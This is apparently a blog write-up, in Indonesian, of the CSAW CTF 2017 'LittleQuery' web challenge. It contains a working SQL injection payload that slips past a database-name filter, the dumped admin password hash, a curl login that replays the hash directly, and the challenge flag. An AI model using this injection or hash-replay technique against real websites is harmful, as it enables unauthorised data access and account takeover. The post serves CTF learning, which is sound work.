 ```yaml
---
private: 'false'
layout: post
featured: false
published: true
comments: true
modified: 2017-09-18
date: 2017-09-18
title: 'CSAW CTF 2017: LittleQuery - 200'
tags: [csaw]
mathjax: false
imagefeature: 
description: Writeup CSAW 2017 LittleQuery - 200
category: ctf
chart: null
---
```



## Problems

```
LittleQuery
I've got a new website for BIG DATA analytics!

http://littlequery.chal.csaw.io
```


## POC

Di source code pada halaman index kita bisa menemukan ada source yang di comment

```html

<!--
<div class="col-md-4">
    <h2>For Developers</h2>
    <p>Check out our <a href="/api/db_explore.php">API</a></p>
</div>
-->
```


kita bisa melakukan explore terhadap database mereka menggunakan api yang tersedia,
ada 2 mode untuk mengexplor databasenya yaitu `mode={schema|preview}` schema untuk melihat schema dari
table atau database.

so kita gunakan schema `http://littlequery.chal.csaw.io/api/db_explore.php?mode=schema` untuk melakukan
list available databases ditemukan ada database namanya `littlequery`, kemudian list table apa saja yang 
ada pada database littlequery `http://littlequery.chal.csaw.io/api/db_explore.php?mode=schema&db=littlequery`
so kita dapat ada table `user`

```javascript

{
    tables: [
        "user"
    ]
}
```

kemudian untuk melakukan list kolom pada table user gunakan `http://littlequery.chal.csaw.io/api/db_explore.php?mode=schema&db=littlequery&table=user`
dan di dapatkan

```javascript

{
    columns: {
        uid: "int(11)",
        username: "varchar(128)",
        password: "varchar(40)"
    }
}
```

untuk melakukan dump datanya kita bisa gunakan mode preview ke `http://littlequery.chal.csaw.io/api/db_explore.php?mode=preview&db=littlequery&table=user`
tapi ternyata ada filter yang melarang untuk melakukan preview terhadap database `littlequery`

setelah mencoba menlakukan injek terhadap parameter db dan table kita bisa memanipulasi parameter db sehingga
tidak match dengan == "littlequery" kita bisa menggunakan # sebagai comment

illustrasi kodingan yang digunakan adalah sebagai berikut

```php

$db = addslashes($_GET['db']);
$table = addslashes($_GET['table']);

if($db == "littlequery"){
    die("Deny");
}

$query = "SELECT * from `".$db."`.".$table."`";
```

kita bisa melakukan bypass dengan menggunakan payload sebagai berikut:

```
http://littlequery.chal.csaw.io/api/db_explore.php?mode=preview&db=littlequery`.`user`%23&table=foobar`
```

$query akan jadi seperti berikut 

```php

SELECT * from `littlequery`.`user`#`.`foobar`

//query yang tereksekusi adalah => SELECT * from `littlequery`.`user`

$db = "littlequery`.`user`#" // jadi kita gak kena deny lagi
```

didapatkan user dan password yang di hash 

```javascript

[
    {
        uid: "1",
        username: "admin",
        password: "5896e92d38ee883cc09ad6f88df4934f6b074cf8"
    }
]
```

kita tidak harus mencari plain-text dari SHA-1 tersebut karena website tersebut menerima login dengan
hashed password bukan dengan plaintext password diketahui dari script yang ada di login.js

```javascript

$(".form-signin").submit(function () {
    var $password = $(this).find("input[type=password]");
    $password.val(CryptoJS.SHA1($password.val()).toString());
});
```

kita bisa kirim POST data dengan curl `curl -X POST http://littlequery.chal.csaw.io/login.php --data "username=admin&password=5896e92d38ee883cc09ad6f88df4934f6b074cf8" -v`
ambil cookie yang di kirimkan response `Set-Cookie: PHPSESSID=6cidmmh[...]cd63qr9nhgb7; path=/` kemudian
set cookie ke browser kalian untuk berpindah ke state login dan bisa akses ke `/query.php`


di temukan flag `flag{mayb3_1ts_t1m3_4_real_real_escape_string?}`

![Flag](https://cdn.pbrd.co/images/GKSIR6m.png)